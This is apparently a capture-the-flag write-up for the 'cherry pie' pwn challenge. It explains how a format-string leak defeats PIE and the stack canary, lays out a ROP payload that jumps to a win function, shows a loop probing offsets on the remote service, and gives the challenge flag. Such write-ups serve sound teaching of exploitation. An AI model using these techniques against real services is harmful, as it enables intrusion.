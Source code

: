 ## Overview
![[../../static/images/cherry_pie_main.png]]

We have PIE and a canary to bypass

### Vulnerabilities
- Buffer overflow on the string 's' since it's only 32 bytes long but the fgets reads 128 bytes.
- Format string vulnerability at row 14

## Phase 1 - Leak the offset, find the canary
We can bypass PIE by exploiting the format string vulnerability to leak an address, find the offset and then the base address.

The input to leak an address is : `Take this, my grandma made that %39$p %40$p %41$p %42$p %43$p %44$p`

We recognize the leaked address that we need because **it usually starts with the number '5'**, in my case i got `0x564f2f600820`.
Using gdb we can find the base and, therefore, leak the offset, that is `0x820`.

Using the same procedure vulnerability (and the same input) **we leak the canary**. In my case i found the canary at `%15$p` and the address at `%39$p`. 
The offset may be different running the binary in local and remote, in my case they was.

## Phase 2 - Attack
We know the location of the address to leak, we know the location of the canary and the offset, so let's begin.
### Set the base address
We first, again, leak the address and the canary, then we use the address to compute the base address: 
				`base_addr = leaked_addr - leaked_offset
				`exe.address = base_addr`
Now that we have set the base address to our elf, we can access freely its symbols :D
### Build the payload
We now that the 's' string (our buffer) is at `$rbp-0x50`, and the canary is as usual at `$rbp-0x8`.

We set our offset variable to `0x50-0x8`, since we have to stop just before the canary.
So the payload is going to be:
- `b'A' * offset`
- the canary
- `b'A' * 8  // this is just for aligning the stack`
- `rop.ret.address // remeber to set rop = ROP(exe) AFTER setting the base address`
- `exe.sym['win']

After we send this payload to the second `fgets` we get the flag :D
`srdnlen{W3_l0v3_Ch3rry_p1e$}`

[Code](./solve.py)

## Note
I found the canary and the address to leak by using this code:

`for i in range(1, 150):`
           ` r = remote(remote_address, port)`
            `payload = 'Take this, my grandma made that '`
            `payload += "%"+str(i)+'$p'`